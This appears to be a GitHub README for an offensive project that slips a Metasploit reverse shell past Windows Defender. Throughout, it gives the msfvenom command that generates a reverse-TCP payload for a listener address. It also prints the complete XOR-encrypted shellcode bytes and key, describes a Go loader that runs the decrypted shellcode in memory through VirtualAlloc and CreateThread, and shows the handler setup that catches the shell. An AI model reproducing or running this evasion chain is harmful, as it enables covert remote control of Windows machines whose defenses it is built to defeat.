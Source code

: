 
# 🛡️ Defender Evasion  

> _Because Windows Defender can’t stop what it can’t see._ ⚡  

---

## 🎯 Overview
DefenderEvasion is an **offensive research project** showcasing techniques to **slip past Windows Defender** using:  
- Custom **shellcode encryption** (XOR)  
- **In-memory execution** with Go  
- Expandable loaders (process injection, API unhooking in future)  

## 🚀 Workflow

1. **Generate Raw Payload**  

```bash
kant@APPLEs-MacBook-Pro ~/e/av-evasion> /opt/metasploit-framework/bin/msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.134.217.216 LPORT=4545 -f raw > plain-rev-shell.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes

kant@APPLEs-MacBook-Pro ~/e/av-evasion> 

```

2. **Encrypt the Shellcode**

```bash
kant@APPLEs-MacBook-Pro ~/e/av-evasion> cd encrypter/
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> ls
encrypter* main.go
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> rm encrypter 
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> go build -o encrypter main.go
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> ls
encrypter* main.go
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> ./encrypter -h
Usage of ./encrypter:
  -file string
    	Path Of the Shellcode
kant@APPLEs-MacBook-Pro ~/e/a/encrypter> ./encrypter -file=../plain-rev-shell.bin
[]byte{121, 205, 6, 97, 117, 109, 73, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 138, 50, 207, 207, 205, 14, 247, 213, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 205, 14, 215, 165, 196, 212, 14, 199, 185, 205, 132, 85, 227, 4, 253, 157, 142, 135, 138, 0, 247, 133, 133, 133, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 14, 205, 157, 213, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 200, 180, 76, 196, 14, 177, 13, 205, 132, 83, 205, 180, 69, 196, 68, 76, 136, 41, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 206, 122, 122, 122, 216, 204, 59, 242, 246, 183, 218, 182, 183, 133, 133, 196, 211, 204, 12, 99, 205, 4, 105, 37, 132, 133, 133, 204, 12, 96, 204, 57, 135, 133, 148, 68, 143, 3, 92, 93, 196, 209, 204, 12, 97, 201, 12, 116, 196, 63, 201, 242, 163, 130, 122, 80, 201, 12, 111, 237, 132, 132, 133, 133, 220, 196, 63, 172, 5, 238, 133, 122, 80, 239, 143, 196, 219, 213, 213, 200, 180, 76, 200, 180, 69, 205, 122, 69, 205, 12, 71, 205, 122, 69, 205, 12, 68, 196, 63, 111, 138, 90, 101, 122, 80, 205, 12, 66, 239, 149, 196, 221, 201, 12, 103, 205, 12, 124, 196, 63, 28, 32, 241, 228, 122, 80, 0, 69, 241, 143, 204, 122, 75, 240, 96, 109, 22, 133, 133, 133, 205, 6, 105, 149, 205, 12, 103, 200, 180, 76, 239, 129, 196, 221, 205, 12, 124, 196, 63, 135, 92, 77, 218, 122, 80, 6, 125, 133, 251, 208, 205, 6, 65, 165, 219, 12, 115, 239, 197, 196, 220, 237, 133, 149, 133, 133, 196, 221, 205, 12, 119, 205, 180, 76, 196, 63, 221, 33, 214, 96, 122, 80, 205, 12, 70, 204, 12, 66, 200, 180, 76, 204, 12, 117, 205, 12, 95, 205, 12, 124, 196, 63, 135, 92, 77, 218, 122, 80, 6, 125, 133, 248, 173, 221, 196, 210, 220, 237, 133, 197, 133, 133, 196, 221, 239, 133, 223, 196, 63, 142, 170, 138, 181, 122, 80, 210, 220, 196, 63, 240, 235, 200, 228, 122, 80, 204, 122, 75, 108, 185, 122, 122, 122, 205, 132, 70, 205, 172, 67, 205, 0, 115, 240, 49, 196, 122, 98, 221, 239, 133, 220, 204, 66, 71, 117, 48, 39, 211, 122, 80}

```

---

3. **Paste into Loader**

The loader will:

- Decrypt using the same key (133)

- Allocate memory with VirtualAlloc

- Change memory protection to PAGE_EXECUTE_READ

- Launch shellcode in a new thread with CreateThread

---

4. **Build the Loader**

```bash
kant@APPLEs-MacBook-Pro ~/e/a/loader> GOOS=windows GOARCH=amd64 go build -a -ldflags="-s -w" -trimpath exp/main.go
```

5. **Run & Catch the Shell**

### msf 

```bash

msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.134.217.216
LHOST => 10.134.217.216
msf exploit(multi/handler) > set LPORT 4545
LPORT => 4545
msf exploit(multi/handler) > run
```
---

<img width="1299" height="438" alt="Screenshot 2025-09-05 at 5 21 36 AM" src="https://github.com/user-attachments/assets/c073ecbf-2ab0-44a0-b8ee-b2a858c5e89e" />

---

## Windows :

<img width="1060" height="610" alt="Screenshot 2025-09-05 052353" src="https://github.com/user-attachments/assets/799e382d-cb9a-47c3-9490-87a1dd8e8dd0" />

---



